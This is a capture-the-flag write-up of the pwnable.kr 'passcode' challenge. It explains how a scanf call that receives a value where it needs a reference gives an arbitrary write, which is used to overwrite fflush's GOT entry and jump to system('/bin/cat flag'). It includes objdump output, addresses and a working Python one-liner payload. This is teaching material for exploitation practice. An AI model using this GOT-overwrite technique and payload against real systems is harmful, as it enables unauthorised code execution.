

In this challenge, we need to login to an application with two passcodes. In description of game, it's said that they ignored compiler warning (due to no reference passed to scanf) <br/>
We check the security properties and see that there's stack buffer overflow protection and code execution prevention. It's good that RELRO is partial and there's no PIE.
```
uzi@pwnpatrol:$ checksec passcode
[*] '/home/uzi/challenges/wargames/pwnable.kr/toddlers_bottle/5.passcode/passcode'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
Looking at the source code, the functions `welcome` and `login` are at the same level meaning that the stack we prepare in welcome,
can be used to manipulate behaviour of login. So this is the stack frame of `welcome` function


* Yellow: $ebp and ret_addr pair
* Green: Stack canary
* Red: Bytes in the range between two red bars are name[100]
* Purple: Stack of of `login`.
    * `passcode1` overlaps with the last 4 bytes of name[100] in previous stack
    * `passcode2` overlaps with the stack canary in previous stack. Notice that there's no stack canary in stack of `login`. It seems that compiler does generate it when there's no risk of overflowing.

If there was only the first and single passcode check, we could pass this challenge by:
* Handcrafting a 100 bytes payload in `welcome` where the last 4 bytes are same as `passcode1`.
* Not providing an integer input for `scanf("%d", passcode1);` so that scanf will not try to update the value pointed by `passcode1`. Actually, as said in the beginning, this is the programming error compiler warns. If you provide an integer other than the address of a writable memory region, to those `scanf`s, there will be a segmentation fault since passcodes passed by value instead of reference.

We should exploit the programming error. What do have regarding `passcode1`
* We can control the content of passcode1.
* We can provide data that's written to the location pointed by passcode1

This is called as **writing an arbitrary value to an arbitrary location**, and it's very powerful. Since the binary is no PIE and RELRO is partial, I can manipulate GOT and change program execution.`fflush` is a good candidate as it's just called after first `scanf`.
Let's check its address in GOT:
```
uzi@pwnpatrol:$ objdump -R passcode
passcode:     file format elf32-i386
DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049ff0 R_386_GLOB_DAT    __gmon_start__
0804a02c R_386_COPY        stdin@@GLIBC_2.0
0804a000 R_386_JUMP_SLOT   printf@GLIBC_2.0
0804a004 R_386_JUMP_SLOT   fflush@GLIBC_2.0
...
```
We need to override the value with the address of `system("/bin/cat flag");`. This call in `login` function is below. Even though the call instruction is at `0x80485ea`, a function call consists of two phases:
* Setting up the arguments (either pushing args to stack or setting registers depending on cpu, cpu mode, call type etc...).
* Making the call.

So we'll be using `0x80485e3` as the target value.
```
uzi@pwnpatrol:$ objdump -Mintel -d passcode | grep -A 40 "<login>:"
08048564 <login>:
 ...
 80485e3:       c7 04 24 af 87 04 08    mov    DWORD PTR [esp],0x80487af
 80485ea:       e8 71 fe ff ff          call   8048460 <system@plt>
 ...
```
Along with the script, challange can be solved with a one-liner as well. Of course, it needs to be exe
```
passcode@pwnable:~$ python3 -c 'import sys;sys.stdout.buffer.write(b"A"*96 + b"\x04\xa0\x04\x08" + str(0x80485e3).encode())' | ./passcode
...
Sorry mom.. I got confused about scanf usage :(
...
```


